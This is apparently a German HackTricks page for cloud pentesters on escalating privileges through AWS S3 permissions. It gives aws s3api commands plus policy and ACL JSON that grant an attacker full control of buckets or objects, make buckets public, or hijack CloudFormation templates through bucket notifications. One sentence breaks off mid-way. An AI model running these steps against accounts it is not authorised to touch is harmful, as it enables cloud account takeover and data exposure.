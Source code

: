 # AWS - S3 Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Ein Angreifer mit diesen Berechtigungen über interessante Buckets könnte in der Lage sein, Ressourcen zu übernehmen und Privilegien zu eskalieren.

Zum Beispiel wird ein Angreifer mit diesen **Berechtigungen über einen CloudFormation-Bucket** namens "cf-templates-nohnwfax6a6i-us-east-1" in der Lage sein, die Bereitstellung zu übernehmen. Der Zugriff kann mit der folgenden Richtlinie gewährt werden:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
Und die Übernahme ist möglich, weil es ein **kleines Zeitfenster vom Moment des Hochladens der Vorlage** in den Bucket bis zum Moment, in dem die **Vorlage bereitgestellt wird**, gibt. Ein Angreifer könnte einfach eine **Lambda-Funktion** in seinem Konto erstellen, die **ausgelöst wird, wenn eine Bucket-Benachrichtigung gesendet wird**, und **übernimmt** den **Inhalt** dieses **Buckets**.

![](<../../../.gitbook/assets/image (174).png>)

Das Pacu-Modul [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) kann verwendet werden, um diesen Angriff zu automatisieren.\
Für weitere Informationen siehe die ursprüngliche Forschung: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Dies sind die Berechtigungen, um **Objekte in S3 zu erhalten und hochzuladen**. Mehrere Dienste innerhalb von AWS (und außerhalb davon) verwenden S3-Speicher, um **Konfigurationsdateien** zu speichern.\
Ein Angreifer mit **Lesezugriff** auf diese könnte **sensible Informationen** darin finden.\
Ein Angreifer mit **Schreibzugriff** auf diese könnte **die Daten ändern, um einen Dienst auszunutzen und zu versuchen, Privilegien zu eskalieren**.\
Hier sind einige Beispiele:

* Wenn eine EC2-Instanz die **Benutzerdaten in einem S3-Bucket speichert**, könnte ein Angreifer diese ändern, um **beliebigen Code innerhalb der EC2-Instanz auszuführen**.

### `s3:PutBucketPolicy`

Ein Angreifer, der **aus demselben Konto** stammen muss, andernfalls wird der Fehler `Die angegebene Methode ist nicht erlaubt` ausgelöst, kann mit dieser Berechtigung sich selbst mehr Berechtigungen über den Bucket(s) gewähren, was ihm erlaubt, Buckets zu lesen, zu schreiben, zu ändern, zu löschen und offenzulegen.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Ein Angreifer könnte diese Berechtigungen missbrauchen, um **sich mehr Zugriff** auf bestimmte Buckets zu gewähren.\
Beachten Sie, dass der Angreifer nicht aus demselben Konto stammen muss. Darüber hinaus ist der Schreibzugriff
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Ein Angreifer könnte diese Berechtigungen ausnutzen, um sich mehr Zugriff auf bestimmte Objekte in Buckets zu gewähren.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Ein Angreifer mit diesen Berechtigungen wird erwartet, in der Lage zu sein, eine Acl für eine bestimmte Objektversion festzulegen.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
